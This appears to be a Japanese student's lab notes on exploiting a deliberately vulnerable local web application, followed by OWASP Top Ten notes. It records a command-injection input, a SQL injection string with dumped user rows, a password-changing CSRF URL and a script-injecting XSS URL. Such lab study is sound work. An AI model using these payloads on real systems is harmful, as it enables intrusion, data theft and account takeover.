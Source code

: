 コマンドあり: 127.0.0.1 && dir

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.458 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.083 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.102 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.059 ms
--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max/stddev = 0.059/0.175/0.458/0.164 ms
help  index.php  source // ディレクトリの中身が見えてしまっている
```

### SQL インジェクション

SQL: 1' or 'a'='a

```
ID: 1' or 'a'='a
First name: admin
Surname: admin
ID: 1' or 'a'='a
First name: Gordon
Surname: Brown
ID: 1' or 'a'='a
First name: Hack
Surname: Me
ID: 1' or 'a'='a
First name: Pablo
Surname: Picasso
ID: 1' or 'a'='a
First name: Bob
Surname: Smith
```

### CSRF

下記の URL を踏むとパスワードが変わる
http://localhost/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change

### XSS

下記の URK を踏むとアラートを表示することができる
http://localhost/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(1)%3C/script%3E

# 課題 4 OWASP Top Ten を読む

https://cheatsheetseries.owasp.org/IndexTopTen.html

## 壊れたアクセス制御に対して

- Amazon CloudFront でアクセス制御をしている
- CORS の設定は実施している
- 認可されていないユーザーが API 単位でアクセスできないようになっている
- コード上で権限に応じたビジネスロジックが実装されているが、ドメインオブジェクトにはなっていない
- アクセス制御の失敗をログに記録している
- セッション ID はログイン後に発行され、ログアウト後には無効化される
